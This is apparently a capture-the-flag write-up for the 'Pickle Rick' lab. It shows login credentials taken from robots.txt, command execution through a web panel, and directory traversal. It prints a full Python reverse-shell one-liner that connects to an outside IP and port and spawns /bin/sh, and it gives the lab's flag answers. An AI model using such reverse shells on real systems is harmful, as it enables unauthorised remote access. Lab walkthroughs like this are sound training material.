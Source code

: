 # Pickle Rick

# Enumeration

![image](https://github.com/it-crypto/WriteUp/assets/54020728/227782c9-56bc-4db1-b1e0-4ba56cf6f032)


![image](https://github.com/it-crypto/WriteUp/assets/54020728/78b583ce-aa8b-46ac-b1e0-64cd2bf362d6)

* Username : R1ckRul3s

![image](https://github.com/it-crypto/WriteUp/assets/54020728/24faed62-baad-4163-a8fd-b678ab56cfa1)

* From robots.txt found some text, so using the username and this text as password tried to login in to that page. Vola!! Logged
* Text from robots.txt url : Wubbalubbadubdub

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/d8fc9bd5-af97-4a3b-bebd-897c9c73b38a)

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/ce67e82a-1e95-43e6-96a2-aa05fd9f2fd9)

* Found a command line, trying to execute some commands and found they are giving values.

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/356c5da1-27e6-4254-839b-ccc371bdc942)

* Using cat command to view the contents, it showed error seems like cat command is disabled.

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/a7f16db1-cb46-427e-aab9-3490505f5f8f)

* So tried some other command to view the data.
* Command: grep . *
   
  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/0a668bff-069c-4d02-a305-f845269a5307)

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/64c234fb-5412-45c5-a97c-8bb37527be85)

* Got the first ingredient : mr. meeseek hair
* From the clue.txt they are mentioning that to view around file system to get another ingredient.
* Performing a directory traversal to find other files in the system

    ![image](https://github.com/it-crypto/WriteUp/assets/54020728/97ed26df-a3bf-4710-978a-8bf13989d4c2)

    ![image](https://github.com/it-crypto/WriteUp/assets/54020728/c5eee1b7-955e-45c1-9f48-88d4fadf121c)
* Tried directory reversal found user rick and there traversed again to find next ingredient
  
![image](https://github.com/it-crypto/WriteUp/assets/54020728/12bfb635-996e-47f2-ba4b-0651d87eaa00)
    
![image](https://github.com/it-crypto/WriteUp/assets/54020728/e61a013c-01ba-420d-8f0d-eec14262e8bf)

* Using rev shell
* Exploit:
  
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.1.103",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

* Used netcat for listening

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/931e99f3-bc69-4c96-82b1-b892a70ec32e)

* After getting the shell, checked the root folder and found the last ingredient.

  ![image](https://github.com/it-crypto/WriteUp/assets/54020728/2d29e397-d736-4312-8a6e-e674f31d0074)

 * Last ingredient : Fleeb juice 

  

  










